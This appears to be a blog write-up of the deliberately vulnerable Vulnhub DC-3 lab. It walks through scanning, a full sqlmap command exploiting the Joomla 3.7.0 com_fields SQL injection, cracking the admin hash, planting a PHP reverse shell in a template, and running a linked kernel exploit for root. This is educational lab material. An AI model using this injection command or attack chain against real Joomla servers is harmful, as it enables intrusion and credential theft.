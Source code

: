 ```yaml
---
title:     "Vulnhub - DC 3"
tags: [joomla,easy,php,kernel_exploit,sqli]
categories: Vulnhub
---
```


![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc3/1.1.png)
We are going to pwn DC 3 by DCAU7 from Vulnhub


## Description
>DC-3 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.
As with the previous DC releases, this one is designed with beginners in mind, although this time around, there is only one flag, one entry point and no clues at all.
Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.
For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I won't give you the answer, instead, I'll give you an idea about how to move forward.
For those with experience doing CTF and Boot2Root challenges, this probably won't take you long at all (in fact, it could take you less than 20 minutes easily).
If that's the case, and if you want it to be a bit more of a challenge, you can always redo the challenge and explore other ways of gaining root and obtaining the flag.


Download Link: <https://www.vulnhub.com/entry/dc-3,312/>


Lets Begin with our Initial Scan

## Nmap Scan Results

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: Joomla! - Open Source Content Management
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Home
MAC Address: 08:00:27:BE:4C:95 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop

```

Looks like only HTTP port is open so lets start our Gobuster

## Gobuster Result

```
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.0.2.5
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/11/25 19:06:03 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.hta (Status: 403)
/administrator (Status: 301)
/.htpasswd (Status: 403)
/cache (Status: 301)
/bin (Status: 301)
/components (Status: 301)
/images (Status: 301)
/includes (Status: 301)
/language (Status: 301)
/layouts (Status: 301)
/libraries (Status: 301)
/index.php (Status: 200)
/media (Status: 301)
/modules (Status: 301)
/plugins (Status: 301)
/server-status (Status: 403)
/templates (Status: 301)
/tmp (Status: 301)
===============================================================
2019/11/25 19:06:05 Finished
===============================================================
```


![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc3/1.png)

It is ```JoomlaCMS``` so i tried using [droopescan](https://github.com/droope/droopescan) to find any vulnerable plugins or versions
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc3/2.png)

## Finding the version is vulnerable

We can also use Metasploit to find Joomla's Version
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc3/3.png)

> Joomla Version 3.7.0

I found there is an SQL INjection for this version.

>https://www.exploit-db.com/exploits/42033

### SQL Injection

``` sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] ```

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc3/4.png)

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc3/5.png)

It shows 5 Databases so lets enumerate the database by using the same command.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc3/6.png)

>-D = To denote which database

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc3/7.png)

It looks like ``#_users`` is interesting

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc3/8.png)

```

-T = Used to denote which table
-C = What are the things we need from the table
--dump = To display all

```
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc3/9.png)

We got a hash for admin so lets try it with john 

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc3/10.png)

It Shows the password is ``snoopy``

Lets Try login 

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc3/11.png)

## Getting Shell 

We need to get reverse shell since there is no other ports running we need to get reverse shell from the webpage

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc3/12.png)

Templates -> Templates -> Beez3 Details and Files -> Index.php
I added my PHP Reverse Shell.

Once added I clicked on Template Preview…
and I got the shell
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc3/13.png)

## Privilege Escalation

It looks like Kernel is outdated<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc3/14.png)

Found there is an exploit from searchsploit

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc3/15.png)


> https://www.exploit-db.com/exploits/39772

> https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip 


I uploaded the code into the machine and did according to the instruction.

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc3/16.png)

First ``./compile.sh``
And ``./doubleput``

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc3/17.png)
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc3/18.png)

``Flag``

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc3/19.png)

Got ROOT!!









